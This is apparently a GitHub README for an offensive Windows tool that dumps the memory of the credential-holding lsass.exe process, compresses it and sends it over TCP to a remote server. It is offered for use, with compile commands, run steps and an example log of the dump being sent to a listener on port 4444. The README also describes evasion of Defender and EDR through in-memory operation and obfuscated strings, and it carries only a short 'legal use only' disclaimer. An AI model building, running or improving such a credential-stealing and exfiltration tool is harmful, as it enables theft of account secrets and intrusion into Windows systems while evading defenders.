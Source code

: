 <h1 align="center"> Project lsassDumper </h1>

## Description

This program dumpin the memory of the `lsass.exe` process on a Windows system, compressing the dump using the **zlib** library, and sending the compressed file to a remote server via a network connection. It is particularly useful in situations where tools like Mimikatz cannot be used. All operations, including the memory dump and compression, are performed entirely in RAM to avoid detection by defender and EDR.

### Key Features

1. **Retrieve PID of `lsass.exe`**: The process is identified by its name using Windows APIs.
2. **Memory Dump**: The process memory is extracted using `MiniDumpWriteDump`.
3. **Data Compression**: The extracted data is compressed using the **zlib** library to reduce file size.
4. **Network Transmission**: The compressed data is sent to a remote server over TCP.
5. **Obfuscation**: The target process name (`lsass.exe`) is obfuscated in the source code to bypass basic analysis.

## Prerequisites

### Environment
- **Windows**
- **Compiler compatible with Windows APIs**: MinGW, Visual Studio, etc.

### Required Libraries
- **zlib**: For data compression.
- **DbgHelp**: For using `MiniDumpWriteDump`.
- **Winsock2**: For network communication.

## Compilation

### Steps with MinGW
1. Ensure MinGW is installed and configured.
2. Compile the source file using the following command:

   ```bash
   g++ -o memory_dumper.exe memory_dumper.cpp -lz -lws2_32 -ldbghelp
   ```

### Steps with Visual Studio
1. Open the `.cpp` file in Visual Studio.
2. Add the required libraries (`DbgHelp.lib`, `ws2_32.lib`) to the project settings.
3. Compile the project.

## Usage

1. Run the executable as an administrator (required to access `lsass.exe`).

   ```bash
   memory_dumper.exe
   ```

2. Provide the server IP and port when prompted.

3. The program:
   - Identifies the `lsass.exe` process.
   - Dumps its memory into a buffer.
   - Compresses the data.
   - Sends the data to the specified server.

### Example

```plaintext
[*] Enter server IP: 192.168.1.100
[*] Enter server port: 4444
[+] Memory dump completed. Size: 16777216 bytes.
[+] Compression completed. Compressed size: 524288 bytes.
[+] Sent 524288 bytes to server.
[+] Done!
```

## Warnings

- **Legal Use Only**: This program is intended for educational or diagnostic purposes on your own systems or as part of authorized audits.
- **Required Permissions**: Ensure you have administrative rights to execute this program.
- **Detection Risk**: Although the program uses basic obfuscation, it may still be detected by advanced security solutions.

## Dependencies

- **zlib**: [zlib.net](https://zlib.net)
- **DbgHelp**: Included with the Windows SDK.
- **Winsock2**: Built into Windows.

## Contributions
Contributions to improve this program or suggest optimizations are welcome. Create a pull request or submit an issue if you want
